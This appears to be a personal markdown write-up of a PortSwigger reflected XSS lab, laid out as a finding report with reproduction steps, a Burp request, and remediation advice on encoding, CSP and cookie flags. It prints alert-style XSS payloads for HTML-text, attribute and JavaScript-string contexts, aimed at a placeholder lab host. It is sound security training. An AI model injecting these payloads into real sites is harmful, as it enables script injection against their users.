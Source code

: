 # Reflected XSS – PortSwigger Beginner Lab

**Date:** 2025-09-02  
**Lab:** Reflected XSS into HTML context (PortSwigger Web Security Academy)  
**Host:** `<paste-lab-host-here>`

**Finding:** Reflected Cross-Site Scripting (XSS) in `/?search=`  
**Severity:** Medium (High if sensitive session actions exist)  
**CWE:** CWE-79

**Endpoint / Parameter:** `/` (query parameter `search`)  
**PoC payload (raw):** `<script>alert(1)</script>`  
**PoC payload (URL-encoded):** `%3Cscript%3Ealert(1)%3C%2Fscript%3E`

---

## Reproduction Steps

1. Navigate to `https://<lab-host>/`.
2. In the Search box, submit: `<script>alert(1)</script>`  
   Or browse directly to:  
   `https://<lab-host>/?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E`
3. Observe the JavaScript alert dialog (screenshot `./evidence/ps-xss/alert-popup.png`).
4. Using Burp Repeater, send the following and confirm the payload is reflected unencoded:

```
GET /?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E HTTP/1.1
Host: <lab-host>
User-Agent: <your-user-agent>
Accept: text/html
Connection: close
```

> If the reflection is **not** in HTML text context:
>
> - **HTML attribute context:** use `"><img src=x onerror=alert(1)>`  
>   URL-encoded: `%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E`
> - **JavaScript string context:** use `';alert(1);//` or `";alert(1);//`  
>   Encoded: `%27%3Balert(1)%3B%2F%2F` or `%22%3Balert(1)%3B%2F%2F`

---

## Impact (short)

Arbitrary JavaScript executes in the victim’s browser in the context of `<lab-host>`. An attacker could steal non-HttpOnly cookies, perform privileged actions on behalf of the user, or pivot to further attacks.

---

## Remediation

- Apply **contextual output encoding** for the `search` parameter (HTML text context).
- Implement a **server-side allow-list**: reject or sanitize `<`, `>`, quotes, and event-handler attributes for user input rendered in responses.
- Deploy a **Content Security Policy (CSP)**, for example:  
  `default-src 'self'; script-src 'nonce-<random>'; object-src 'none'; base-uri 'self'`.
- Set cookies with **HttpOnly**, **Secure**, and **SameSite** (`Lax`/`Strict`) as appropriate.

---

## Artifacts

- Screenshot(s):
  ![Alert popup](../../evidence/ps-xss/alert-popup.png)
  ![Lab solved](../../evidence/ps-xss/alert-popup.png)
  [Open File](../../evidence/ps-xss/alert-popup.png)

- Burp Repeater request/response:
  [request.txt](../../evidence/ps-xss/request.txt)

```
[paste the relevant request/response snippet here]
```

---

## Summary / Next Step

- ✅ Solved Reflected XSS with payload: `<script>alert(1)</script>`
- ✅ Evidence captured (alert popup + Burp request)
- ▶️ Next: try an attribute-context XSS lab or start the Basic SQL injection lab tomorrow
